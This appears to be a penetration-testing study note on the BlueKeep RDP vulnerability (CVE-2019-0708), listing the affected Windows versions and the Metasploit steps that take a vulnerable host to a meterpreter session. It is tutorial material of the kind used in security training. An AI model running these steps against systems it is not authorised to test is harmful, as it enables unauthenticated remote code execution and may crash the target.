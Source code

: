 #### RDP BlueKeep CVE-2019-0708
- BlueKeep(CVE-2019-0708) is the name given to an RDP vulnerability in windows that  could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The BlueKeep was made public by Microsoft in May 2019
- BlueKeep exploit takes advantages of a vulnerability in the windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitraray code at the system level without authentication.

#### Vulnerable versions
- XP
- Vista
- Windows 7
- Windows Server 2008 & R2
#### Exploiting RDP using metasploit
- nmap -p 3389 10.10.10.7 [RDP runs 3389 port]
- search bluekeep [ in metasploit]
- use auxiliary module
- use exploit module for exploitation
- setting RHOST,RPORT,LHOST there is chance to fail the exploitation. So We need to fix the target
- show targets [this will lists the available target for that exploit modules ]
- set target 2 [ We select the target using this command in msf]
- run
- this will give us meterpreter session
#### Note
- Kernal exploit may be dangerous it may causes crash the system.

